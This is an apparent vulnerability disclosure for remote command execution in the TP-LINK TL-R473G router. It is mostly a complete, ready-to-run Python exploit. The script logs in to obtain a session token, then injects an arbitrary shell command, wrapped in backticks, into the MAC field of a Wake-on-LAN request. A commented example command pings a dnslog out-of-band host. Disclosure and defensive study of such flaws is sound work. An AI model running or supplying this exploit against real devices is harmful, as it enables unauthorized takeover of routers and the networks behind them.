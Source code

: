 # TP-LINK TL-R473G command_execution

**CVE ID**:  

**CNVD ID**: 

**Vender**: TP-LINK

**Vendor Homepage**: https://www.tp-link.com.cn/、https://www.tp-link.com/

**Affect products**: TL-R473G

**Firmware version**: 2.0.1 Build 220529 Rel.65574n(the latest version)

**Hardware Link**: not the latest version firmware https://smb.tp-link.com.cn/service/detail_download_8644.html

**Exploit Author**: [SkYe231@Hillstone](mailto:ext-lhliang@Hillstonenet.com)

## describe

The TP-LINK TL-R473G has remote command execution, and remote attackers can bypass restrictions through carefully constructed packets to achieve remote command execution.

## detail

There is no effective filtering of MAC addresses, just replace the `-` with `:` .

![image-20220621165232656](./img/image-20220621165232656.png)

## EXP

```python
# encoding:utf-8
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
import json,sys

TIMEOUT_MAX = 60
HOST = sys.argv[1]
USERNAME = sys.argv[2]
PASSWORD = sys.argv[3]
COMMAND = sys.argv[4]#"ping a5urz4.dnslog.cn"

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_stok(host,username,password):
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","login":{"username":username,"password":password}}
    url = host
    response = requests.post(url=url,headers=headers,data=json.dumps(data),verify=False,timeout=TIMEOUT_MAX)
    stok = json.loads(response.text)["stok"]
    print("[+]Get stok:",stok)
    return stok

def rce(host,stok):
    url = host+"/stok="+stok+"/ds"
    headers = {
        "Content-Type":"application/json; charset=UTF-8"
    }
    data = {"method":"do","wol":{"wol_wake":{"mac":"DC-DC-DC-DC-`{}`-DC".format(COMMAND),"usrif":"LAN"}}}
    response = requests.post(url=url,headers=headers,data=json.dumps(data))
    if json.loads(response.text)["error_code"] == 0 :
        print("[+]Success")
    else:
        print("[-]Error")

def exp(host,username,password):
    host = host.strip()
    if host[:4] != "http":
        host = "http://" + host
    stok = get_stok(host,username,password)
    if stok != -1:
        rce(host,stok)

if __name__ == "__main__":
    exp(HOST,USERNAME,PASSWORD)
```

